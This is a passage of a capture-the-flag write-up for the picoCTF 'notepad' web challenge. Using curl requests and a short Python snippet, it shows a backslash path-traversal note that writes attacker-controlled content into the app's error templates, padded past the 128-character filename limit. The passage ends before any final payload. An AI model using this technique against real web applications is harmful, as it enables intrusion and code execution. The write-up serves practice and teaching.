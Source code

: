 send it with curl:
```bash
$ curl -X POST "https://notepad.mars.picoctf.net/new" --data "content=..\templates\errors\test"

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="static/../templates/errors/test-wN0Eds1fEAI.html">static/../templates/errors/test-wN0Eds1fEAI.html</a>.  If not click the link.⏎      
```
It seem our file is created in `errors` folder. let's verify it's created:
```bash
$ curl -X GET "https://notepad.mars.picoctf.net/?error=test-wN0Eds1fEAI"
<!doctype html>

  <h3>
    error: test-wN0Eds1fEAI
  </h3>
  ..\templates\errors\test

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>⏎ 
```

and you can see it's showing and content.
let's make a longer content (more than 128 which is our filename) and check again:
```python
payload = '..\\templates\\errors\\test' + (128-len('..\\templates\\errors\\test'))*'a' + 'this is our paylaod'
print(payload)

# ..\templates\errors\testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaathis is our paylaod
```
Now let's send this new payload:
```bash
$ curl -X POST "https://notepad.mars.picoctf.net/new" --data "content=..\templates\errors\testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaathis is our paylaod"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="static/../templates/errors/testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-Ymf7PoaVcmk.html">static/../templates/errors/testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-Ymf7PoaVcmk.html</a>.  If not click the link.⏎ 

$ curl -X GET "https://notepad.mars.picoctf.net/?error=testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-Ymf7PoaVcmk"
<!doctype html>

  <h3>
    error: testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-Ymf7PoaVcmk
  </h3>
  ..\templates\errors\testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaathis is our paylaod

<h2>make a new note</h2>
<form action="/new" method="POST">
```